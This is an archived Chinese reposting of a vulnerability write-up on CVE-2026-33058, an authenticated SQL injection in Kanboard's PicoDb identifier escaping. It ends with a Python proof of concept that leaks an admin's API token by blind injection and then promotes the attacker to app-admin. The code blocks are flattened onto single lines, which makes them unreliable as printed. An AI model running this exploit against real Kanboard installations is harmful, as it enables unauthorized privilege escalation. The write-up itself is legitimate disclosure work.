


# Kanboard/PicoDb 33058 external_id_column SQL 注入至提权

## 条目说明

- 对象与具体问题：Kanboard/PicoDb；33058 external_id_column SQLi至提权
- 版本、配置及部署条件：<=1.2.50/1.2.51修复声明；项目添加用户权限/API token存在
- 认证与权限前提：已认证，manager角色仅推测
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 标识符早返回与参数值绑定区分准确，用户到SQL结构链有明确源码
- 全部代码被粘成单行，Python import串连且#注释吞后文，不能直接运行
- 302即布尔真需阴性/错误对照；固定60位token假设和缺字处理导致不完整也继续改用户
- PoC提取token后自动updateUser提升app-admin为持久副作用，须与安全验证分离
- 打印SQL为插桩实验不是默认回显；保留GHSA/原文/修复时间，去冗长修辞

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

0dave
                    0dave  赛博知识驿站   2026-03-21 02:06  
  
   
  
这篇文章讲的是一个相当典型、也相当"要命"的漏洞发现过程：Kanboard<= 1.2.50  
 中一处已认证 SQL 注入  
，对应编号为 CVE-2026-33058[1]  
。  
  
说白了，这不是那种"看起来有点怪，但未必能打通"的边角料问题，而是一条从代码逻辑一路追到可利用结果的完整链路。真正让人拍案的是：表面上用了 PDO::prepare()  
、参数绑定这些"标准防线"，结果还是被一个不起眼的早返回逻辑挖出了大坑。  
### Storytime  
  
故事开始于一个慵懒的周六下午。咖啡在手，目标也很直接：去 Kanboard  
 里挖一挖 SQL 注入  
。  
  
切入口很朴素，甚至可以说是所有审计里最笨但也最稳的一招：先回答一个问题——**Kanboard 到底是怎么和数据库打交道的？**  
  
于是，视线顺着一次普通的 GET  
 请求往下走，从 app/Controller/*.php  
 里随手挑一个控制器开始，一路追踪请求与响应的完整调用链。跟了几层之后，落点来到了 app/Model/*.php  
。再看某个模型方法时，就会发现它走的是一套很常见的 ORM  
 / SQL query builder  
 路子：  
```
/** * Get all tasks for a given project and status * * @access public * @param  integer   $project_id      Project id * @param  integer   $status_id       Status id * @return array */public function getAll($project_id, $status_id = TaskModel::STATUS_OPEN){    return $this->db                ->table(TaskModel::TABLE)                ->eq(TaskModel::TABLE.'.project_id', $project_id)                ->eq(TaskModel::TABLE.'.is_active', $status_id)                ->asc(TaskModel::TABLE.'.id')                ->findAll();}
```  
  
继续顺着 $this->db  
 往下翻，就会走到 libs/picodb/lib/PicoDb/Database.php  
。这里基本就是整个 SQL query builder  
 的心脏地带。根据 PicoDb 的 README.md[2]  
，它本身就是一个"极简主义"的 PHP 数据库查询构建器，而且还是 Kanboard  
 作者自己写的。  
  
走到这一步，问题自然变成了另一个更关键的问题：**它到底拿什么防 SQL 注入？**  
  
一通 grep  
 下去，顺着预编译语句的使用点，很快就能定位到 libs/picodb/lib/PicoDb/StatementHandler.php  
。其中的 execute()  
 方法，会调用 PDO::prepare[3]  
，再通过 PDOStatement::bindParam[4]  
 绑定参数，最后用 PDOStatement::execute[5]  
 执行：  
```
/** * Execute a prepared statement * * Note: returns false on duplicate keys instead of SQLException * * @access public * @return PDOStatement|false */public function execute(){    try {        $this->beforeExecute();        $pdoStatement = $this->db->getConnection()->prepare($this->sql);        $this->bindParams($pdoStatement);        $pdoStatement->execute();        $this->afterExecute();        return $pdoStatement;    } catch (PDOException $e) {        return $this->handleSqlError($e);    }}
```  
  
这个方法不会被业务代码直接乱用，而是被 libs/picodb/lib/PicoDb/Database.php  
 进一步封装，对外暴露一个更高层的 execute()  
：  
```
/** * Execute a prepared statement * * Note: returns false on duplicate keys instead of SQLException * * @access public * @param  string    $sql      SQL query * @param  array     $values   Values * @return \PDOStatement|false */public function execute($sql, array $values = array()){    return $this->statementHandler        ->withSql($sql)        ->withPositionalParams($values)        ->execute();}
```  
  
再往外看，Database::execute  
 基本也不是单独裸奔的，而是通过 libs/picodb/lib/PicoDb/Table.php  
 里的各种方法间接调用。像 insert()  
、update()  
、findAll()  
 这些常见的终结器方法，都会在内部拼装、预编译并执行 SQL  
。比如 Table::findAll()  
：  
```
 /**  * Fetch all rows  *  * @access public  * @return array  */ public function findAll() {     $rq = $this->db->execute($this->buildSelectQuery(), $this->conditionBuilder->getValues());     $results = $rq->fetchAll(PDO::FETCH_ASSOC);     if (is_callable($this->callback) && ! empty($results)) {         return call_user_func($this->callback, $results);     }     return $results; }
```  
  
这里有一个非常核心、也是很多人容易"想当然"的点。  
  
回忆一下，$this->db->execute()  
 接收两个参数：第一个是 SQL  
 查询字符串，第二个是实际的参数值。查询字符串会先交给 PDO::prepare()  
，参数值再用 PDOStatement::bindParam()  
 绑定。理论上讲，预编译加参数绑定，确实可以比较稳妥地保护用户可控的**值**  
，避免它们在最终 SQL  
 中被直接拼进去。  
  
但问题是——**预编译只能保护"值"，保护不了已经被污染的 SQL 结构本身。**  
  
换句话说，不去深究 PDO  
 的底层细节也能明白：传给 PDO::prepare($the_sql_statement)  
 的那条 SQL  
 语句，前提必须是"结构安全"的。如果恶意输入已经在这之前混进了 SQL  
 语句模板里，那后面再怎么绑定参数，也不过是亡羊补牢，甚至连羊圈都没了。  
  
于是，真正的审计目标就浮出水面了：**有没有可能在 PDO::prepare() 之前，就把构造中的 SQL 查询字符串给污染掉？**  
  
顺着这个思路，继续跟进 $this->buildSelectQuery()  
。这个方法负责在预编译之前把完整的查询字符串拼出来：  
```
/** * Build a select query * * @access public * @return string */public function buildSelectQuery(){    if (empty($this->sqlSelect)) {        $this->columns = $this->db->escapeIdentifierList($this->columns, $this->name);        $this->sqlSelect = ($this->distinct ? 'DISTINCT ' : '').(empty($this->columns) ? '*' : implode(', ', $this->columns));    }    $this->groupBy = $this->db->escapeIdentifierList($this->groupBy);    return trim(sprintf(        'SELECT %s %s FROM %s %s %s %s %s %s %s %s',        $this->sqlTop,        $this->sqlSelect,        $this->db->escapeIdentifier($this->name),        implode(' ', $this->joins),        $this->conditionBuilder->build(),        empty($this->groupBy) ? '' : 'GROUP BY '.implode(', ', $this->groupBy),        $this->sqlOrder,        $this->sqlLimit,        $this->sqlOffset,        $this->sqlFetch    ));}
```  
  
盯着这个方法看，有两个调用非常扎眼：escapeIdentifierList()  
 和 escapeIdentifier()  
。  
  
光看命名，就能大致猜到它们的职责：给 SQL identifier  
 做转义或过滤，比如列名、表名之类。那就别客气，直接扒开 escapeIdentifier()  
 看它到底怎么"防"：  
```
/** * Escape an identifier (column, table name...) * * @access public * @param  string    $value    Value * @param  string    $table    Table name * @return string */public function escapeIdentifier($value, $table = ''){    // Do not escape custom query    if (strpos($value, '.') !== false || strpos($value, ' ') !== false) {        return $value;    }    // Avoid potential SQL injection    if (preg_match('/^[a-z0-9_]+$/', $value) === 0) {        throw new SQLException('Invalid identifier: '.$value);    }    if (! empty($table)) {        return $this->driver->escape($table).'.'.$this->driver->escape($value);    }    return $this->driver->escape($value);}
```  
  
这段代码初看好像还挺像回事：正则校验，加上 $this->driver->escape()  
 做转义，表面上是一套"该有的都有"的防线。  
  
但别高兴太早，真正的雷点恰恰藏在前面那几行：  
```
public function escapeIdentifier($value, $table = '') {    // Do not escape custom query    if (strpos($value, '.') !== false || strpos($value, ' ') !== false) {        return $value;    }    ...
```  
  
看到这儿，基本就该警铃大作了。  
  
如果 $value  
 里包含点号或者空格，整个"转义/过滤"流程会被**直接绕过**  
。不是减弱，不是打折，而是干脆原样返回。换句话说，只要用户可控输入能流进 escapeIdentifier()  
，它就有可能完全不经过妥善处理，直插 SQL 构造过程。  
  
这就是那种很经典、也很尴尬的代码：本意可能是为了支持"自定义查询片段"，结果却把安全边界撕开了一道口子。一个小小的早返回，足以把整套防线拖进泥坑。  
  
带着这个发现，接下来就该做一件事：**找引用。**  
  
继续回到前面 buildSelectQuery()  
 里没追完的那条链，深入到 $this->conditionBuilder->build()  
。它的逻辑很简单：  
```
/** * Build the SQL condition * * @access public * @return string */public function build() {    return empty($this->conditions) ? '' : ' WHERE '.implode(' AND ', $this->conditions);}
```  
  
这个方法负责拼接 WHERE  
 子句，把 $conditions  
 数组里的条件用 AND  
 连起来。  
  
那问题就自然变成了：$conditions  
 是怎么被塞进去的？  
  
在同一个类里继续翻，很快就会发现 ConditionBuilder::addCondition()  
 被频繁调用。它通常由一些辅助方法间接触发，比如 like()  
、in()  
、lt()  
、gt()  
、eq()  
 等等。这些方法又被 Database  
 和 Table  
 暴露出来，让开发者可以用链式写法来构建条件查询。  
  
拿最常见的 eq()  
 举个例子：  
```
/** * Equal condition * * @access public * @param  string   $column * @param  mixed    $value */public function eq($column, $value) {    $this->addCondition($this->db->escapeIdentifier($column).' = ?');    $this->values[] = $value;}
```  
  
这里的关键非常清楚：  
- • 第一个参数 $column  
 会被送进 escapeIdentifier()  
  
- • 然后和  = ?  
 拼成条件片段  
  
- • 第二个参数 $value  
 则单独进入值数组，后续再绑定  
  
等到 ConditionBuilder::build()  
 执行时，所有通过 addCondition()  
 收集到的内容会被拼成类似 ... WHERE conditionN AND ...  
 的最终字符串。  
  
换句话说，调用 eq()  
 的本质，就是构造一个 $column = ?  
 的条件片段。其中，$value  
 借助预编译得到保护；但 $column  
 能不能安全，全看 escapeIdentifier()  
 靠不靠谱。  
  
而现在我们已经知道：**它并不靠谱。**  
  
再回头看看文章开头提到的那个模型调用：  
```
/** * Get all tasks for a given project and status * * @access public * @param  integer   $project_id      Project id * @param  integer   $status_id       Status id * @return array */public function getAll($project_id, $status_id = TaskModel::STATUS_OPEN){    return $this->db                ->table(TaskModel::TABLE)                ->eq(TaskModel::TABLE.'.project_id', $project_id)                ->eq(TaskModel::TABLE.'.is_active', $status_id)                ->asc(TaskModel::TABLE.'.id')                ->findAll();}
```  
  
基于目前掌握的信息，结论其实已经呼之欲出：  
  
如果用户可控输入落进 eq($column, $value)  
 的第一个参数，那么它就可能构造出一个**未被正确处理的**$column = ?  
 片段。也就是说，SQL  
 查询字符串会在进入 PDO::prepare()  
 之前就被污染，从而形成 SQL 注入  
。  
  
这时候，咖啡续上，思路也彻底清晰了：既然已经知道 eq($user_input, ...) = bad  
，escapeIdentifier($user_input) = bad  
，那下一步就不是空想，而是去找真正能打通的调用链。  
  
为了缩小范围，作者用了一条"够用就行"的正则去搜索那些**第一个参数是变量**  
的条件构造调用：  
```
rg -A 10 -B 10 '\->(eq|neq|in|inSubquery|notIn|notInSubquery|like|ilike|gt|gtSubquery|lt|ltSubquery|gte|gteSubquery|lte|lteSubquery|isNull|notNull)\(\s*\$' app/Model
```  
  
沿着这些命中的 sink  
 往回追 source  
，筛了几轮之后，很快就找到了那个"天选之子"——ProjectPermissionController.php  
 里的 addUser  
 端点。这个接口本来是给项目添加用户用的：  
```
/** * Add user to the project * * @access public */public function addUser() {    $this->checkCSRFForm();    $project = $this->getProject();    $values = $this->request->getValues();    if (empty($values['user_id']) && ! empty($values['external_id']) && ! empty($values['external_id_column'])) {        $values['user_id'] = $this->userModel->getOrCreateExternalUserId($values['username'], $values['name'], $values['external_id_column'], $values['external_id']);    }    ...}
```  
  
这个方法会接收用户可控的 POST  
 参数，比如 user_id  
、external_id  
、external_id_column  
 等。  
  
更要命的是，在那个 if  
 分支里，这些参数会被传入 UserModel::getOrCreateExternalUserId(...)  
。  
  
而在 getOrCreateExternalUserId()  
 中，$externalIdColumn  
 又会作为第一个参数传给 eq($column, ...)  
。这就等于把可控输入直接送上了那条已经确认有问题的链路：  
```
public function getOrCreateExternalUserId($username, $name, $externalIdColumn, $externalId) {    $userId = $this->db->table(self::TABLE)->eq($externalIdColumn, $externalId)->findOneColumn('id');    ...}
```  
  
到这里，链路已经非常完整了：  
- • 用户输入进入 external_id_column  
  
- • 控制器把它带入模型  
  
- • 模型把它作为 eq()  
 的列名参数  
  
- • escapeIdentifier()  
 因为空格或点号早返回  
  
- • 污染后的条件片段进入构造中的 SQL  
  
- • 最终在 PDO::prepare()  
 之前就已经"带毒"  
  
为了验证这一切不是纸上谈兵，而是真的能落地利用，作者搭了一个 docker  
 化的 Kanboard  
 实例。为了看清楚构造出来的 SQL  
，还顺手修改了 StatementHandler::execute()  
，在预编译和执行之前把查询字符串直接打印出来：  
```
/** * Execute a prepared statement * * Note: returns false on duplicate keys instead of SQLException * * @access public * @return PDOStatement|false */public function execute() {    try {        $this->beforeExecute();        // :)        print_r($this->sql);        $pdoStatement = $this->db->getConnection()->prepare($this->sql);        $this->bindParams($pdoStatement);        $pdoStatement->execute();        $this->afterExecute();        return $pdoStatement;    } catch (PDOException $e) {        return $this->handleSqlError($e);    }}
```  
  
修改完成后，先发一个最普通的 POST  
 请求，把 external_id_column  
 和其他字段都填成醒目的假数据，方便在输出里定位：  
  
  
  
带有调试输出的首次请求与响应截图  
  
从 print_r($this->sql)  
 的输出里可以看到，系统确实构造出了一条 SELECT  
 语句，其中 external_id_column  
 被当作列名，与占位符进行比较：  
```
SELECT  "users"."id" FROM "users"   WHERE "xxxxxxxxxxxxxx" = ?    LIMIT 1
```  
  
因为这个测试值里没有点号，也没有空格，所以它被正常地包上了双引号，看起来一切岁月静好。  
  
但真正的戏剧性转折来了。  
  
当 external_id_column  
 中加入一个"魔法般"的空格后，escapeIdentifier()  
 就会触发那个离谱的早返回，直接跳过处理逻辑：  
  
  
  
通过空格触发绕过后的请求与响应截图  
  
从响应中的构造结果可以清楚看到，输入几乎是原封不动地嵌进了查询里，注入由此成立：  
```
SELECT  "users"."id" FROM "users"   WHERE (SELECT OH NOES!!!11);-- - = ?    LIMIT 1
```  
  
到这里，怀疑已经不是怀疑，而是铁证如山。漏洞存在，链路可达，注入可控。接下来写个 PoC  
，只是水到渠成。  
### PoC  
  
这个场景下，攻击者需要已经登录，并且拥有向项目中添加新用户的权限（大概率需要"manager"角色）。  
  
PoC  
 使用的是布尔盲注思路，目标是逐位泄露管理员用户的 API key  
。拿到 API key  
 之后，再调用接口把攻击者自己的角色提升为管理员。  
  
这不仅仅是"能注入"这么简单，更麻烦的是它完成了从一个受限权限点到高权限接管的跃迁。很多真实世界漏洞，真正可怕的地方恰恰在这里：**不是单点失守，而是整条信任链跟着塌。**  
  
  
下面是略显粗糙、但足够说明问题的 PoC  
 代码：  
```
import stringimport bs4import argparseimport requestsdef main(args):    base_url = args.url.rstrip("/")    cookie = args.cookie    if args.cookie.lower().startswith("cookie: "):        cookie = args.cookie[8:]    with requests.Session() as session:        # session.proxies = {"http": "http://127.0.0.1:8080"}        session.verify = False        session.headers.update({"Cookie": cookie})        response = session.get(f"{base_url}/project/{args.project_id}/permissions")        soup = bs4.BeautifulSoup(response.text, features="html.parser")        csrf = ""        for form in soup.find_all("form"):            action = form.get("action")            if "controller=ProjectPermissionController&action=addUser" in action:                csrf = form.find("input", attrs={"name": "csrf_token"}).get("value")                break        if csrf == "":            print("failed to find csrf token")            return        def send_sqli(payload: str) -> bool:            response = session.post(                f"{base_url}/?controller=ProjectPermissionController&action=addUser&project_id={args.project_id}",                data={                    "csrf_token": csrf,                    "user_id": "",                    "username": "dummy",                    "external_id": "dummy",                    "external_id_column": payload,                    "name": "dummy",                    "role": "dummy",                },                allow_redirects=False,            )            return response.status_code == 302        print(f"Looking for API key for {args.victim_username}...")        chars = []        no_key = True        for idx in range(1, 61):  # api_access_token length is 60 chars, lowercased hex.            for c in string.hexdigits[:-6]:                response = send_sqli(                    f"(CASE WHEN (SELECT SUBSTR(api_access_token, {idx}, 1)='{c}' FROM users WHERE username = '{args.victim_username}' LIMIT 1) THEN 'dummy' ELSE NULL END)"                )                if response:                    no_key = False                    chars.append(c)                    break        if no_key:            print(f"No API key found for: {args.victim_username}")            return        api_key = "".join(chars)        print(f"Found {args.victim_username}'s API key: {api_key}")        print(f"Adding user {args.user_id} to admins...")        requests.post(            f"{base_url}/jsonrpc.php",            auth=(args.victim_username, api_key),            json={                "jsonrpc": "2.0",                "method": "updateUser",                "id": 322123657,                "params": {"id": args.user_id, "role": "app-admin"},            },        )if __name__ == "__main__":    ap = argparse.ArgumentParser()    ap.add_argument("-t", "--url", required=True, help="target base url, e.g. http://localhost/")    ap.add_argument("-p", "--project-id", required=True, type=int)    ap.add_argument("-c", "--cookie", required=True, help="nom nom, your session cookies")    ap.add_argument("-v", "--victim-username", required=True, help="the username to extract the API key from")    ap.add_argument("-i", "--user-id", required=True, type=int, help="your user id")    args = ap.parse_args()    main(args)
```  
### Timeline  
- • 2026-02-14 发现并上报漏洞：GHSA-f62r-m4mr-2xhh[6]  
  
- • 2026-02-15 写下这篇文章  
  
- • 2026-02-16 @fguillot[7]  
 接受报告  
  
- • 2026-03-07 Kanboard  
 发布补丁版本 1.2.51  
  
- • 2026-03-18 CVE-2026-33058[1]  
 正式公开  
  
- • 2026-03-18 发布本文  
  
> 原文:https://0dave.ch/posts/cve-2026-33058/  
  
##### 引用链接  
  
[1]  
 CVE-2026-33058: https://www.cve.org/CVERecord?id=CVE-2026-33058  
[2]  
 PicoDb 的 `README.md`: https://github.com/kanboard/kanboard/blob/main/libs/picodb/README.md  
[3]  
 PDO::prepare: https://www.php.net/manual/en/pdo.prepare.php  
[4]  
 PDOStatement::bindParam: https://www.php.net/manual/en/pdostatement.bindparam.php  
[5]  
 PDOStatement::execute: https://www.php.net/manual/en/pdostatement.execute.php  
[6]  
 GHSA-f62r-m4mr-2xhh: https://github.com/kanboard/kanboard/security/advisories/GHSA-f62r-m4mr-2xhh  
[7]  
 @fguillot: https://github.com/fguillot  
  
   
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
